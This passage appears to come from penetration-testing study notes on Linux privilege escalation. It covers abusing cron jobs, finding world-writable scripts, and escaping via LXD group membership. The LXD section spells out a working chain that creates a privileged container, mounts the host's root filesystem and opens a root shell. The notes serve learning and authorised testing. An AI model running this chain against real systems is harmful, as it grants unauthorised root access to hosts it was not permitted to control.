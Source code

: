 | `0`     | `*/12` | `*`  | `*`    | `*`   | Every 12 Hours |
 
* root crontab is only editable by the root user or a user with full sudo priviliges. 
* If you find world writable scripts that run as root in a crontab, you may be able to use these.
```shell
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
* use [pspy](https://github.com/DominicBreuker/pspy) to see if there is a cronjob running
```shell
./pspy64 -pf -i 1000
```
## Containers
* Operate at the OS system level and in virtual machines at the hardware level.
### LXC
* Linux Containers (LXC) is an operating system-level virtualisation technique
* Very popular due to their ease of user.
* By default LXC consume fewer resources than a virtual machine have a standard interface.
### LXD
* Linux Daemon is similar in some aspects but it is designed to contain a complete operating system. 
* Not an application contain but as such a system container.
### Exploit
* First check if we are in one of their groups
```shell
id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
* We can either create our own container or use an existing container. 
```shell
cd ContainerImages
ls
```
Templates often do not have passwords
```shell
lxc image import <template_name> --alias ubuntutemp
```
Verify import
```shell
lxc image list
```
Initiate the image and configure it by specifying the `security.privileged` flag. This flag disables all isolation
```shell
 lxc init ubuntutemp privesc -c security.privileged=true
```
Specify the root path for the container
```shell
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
Start the container
```shell
lxc start privesc
```
```shell
 lxc exec privesc /bin/bash
```
```shell
ls -l /mnt/root
```
## Docker
* Open-source tool that provides a portable and consistent runtime enviromenet for software applications.